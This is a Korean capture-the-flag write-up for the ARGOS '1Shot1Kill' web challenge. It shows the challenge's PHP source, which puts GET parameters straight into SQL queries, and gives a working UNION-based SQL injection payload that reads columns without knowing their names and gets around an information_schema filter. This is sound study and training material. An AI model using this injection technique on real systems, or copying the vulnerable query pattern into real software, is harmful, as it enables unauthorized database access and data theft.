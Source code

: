 # League Of Hackers (ARGOS): 1Shot1Kill(200)

문제 소스:

```php
<?php
require_once("func.php");
ini_set("display_errors", 1);
$host = "127.0.0.1";
$user = "####";
$pass = "####";
$id = $_GET['id'];
$pw = $_GET['pw'];

try {
    $conn = new PDO("mysql:host=$host;dbname=argos", $user, $pass);
} catch(PDOException $e) {
    print "DB error";
    print "\n".$e;
    die();
}
function reset_flag() {
    global $conn;
    $str = "abcdefghijklmnopqrstuvwxyz0123456789";
    $shuf = str_shuffle($str);
    $hide = substr($shuf, 0, 30);
    $stmt = $conn->query("update hide set $column_flag='$hide'");
    $stmt->execute();
    echo '<h3>[FLAG WAS RESET]</h3>';
}
if(preg_match("/information|schema|\./", $id) || preg_match("/information|schema|\./i", $pw))
    die("Nope");
if(isset($id) || isset($pw)) {
    try {
        $stmt = $conn->query("select $column_flag from hide");
        $curflag = $stmt->fetch()[0];
        $stmt = $conn->query("select $column_id from hide");
        $curid = $stmt->fetch()[0];
        $stmt = $conn->query("select * from hide where $column_id='{$id}' and $column_pw='{$pw}'");
        $result = $stmt->fetch();
        reset_flag();

        if($result[0] !== NULL)
            echo "Hello";
        echo "<hr>";
        if(($result[$column_id] === $curid) && ($result[$column_pw] === $curflag)) {
            echo 'flag : ARGOS{###################}';
        }
    } catch(Exception $e) {
        die();
    }
}
show_source("index.phps");
?>
```

실행할 때 마다 flag를 리셋한다. column명을 모르고 information_schema를 사용할 수 없을 때 injection을 어떻게 할것인가에 대한 문제다.

먼저 union select로 column의 갯수를 알아낸 뒤 injection해주면 된다.

> payload : http://192.168.101.202:62645/?id=a&pw=a' union select a,c,3,4 from(select 1\`a\`,2\`b\`,3\`c\`,4\`d\` union select * from hide)x limit 1,1 -- -

![](./img/solved.png)
